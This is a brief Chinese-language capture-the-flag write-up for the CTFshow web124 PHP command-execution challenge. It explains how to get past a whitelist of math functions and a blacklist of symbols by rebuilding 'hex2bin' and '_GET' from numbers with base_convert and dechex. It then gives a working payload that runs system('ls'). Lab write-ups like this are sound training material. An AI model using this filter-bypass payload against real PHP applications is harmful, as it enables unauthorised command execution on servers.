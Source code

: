 这题设置了白名单和黑名单，白名单是数学函数，黑名单则是一些符号，而且有长度限制

这题的思路其实就是要考虑用数字通过数学运算函数的转换来构造出我们需要用到的字符

就比如我们可以先将需要的字符转换成16进制后再转换成10进制，再执行命令的时候通过数学函数转换回去

[CTFshow-WEB入门-命令执行web124 - Hacker&Cat - 博客园](https://www.cnblogs.com/FallenStar/articles/17064728.html)

```
目标代码：$_GET['abs']($_GET['acos'])
```

```
dechex()，10进制转16进制

base_convert(值,原进制,目标进制)，任意进制转换

hex2bin，16进制转字符串
```

解题：

base_convert(26941962055,10,34) 为 hex2bin

base_convert(26941962055,10,34)(dechex(1598506324)) 为 _GET

构造payload

```
c=$pi=base_convert(26941962055,10,34)(dechex(1598506324));$$pi{abs}($$pi{asin})&abs=system&asin=ls
```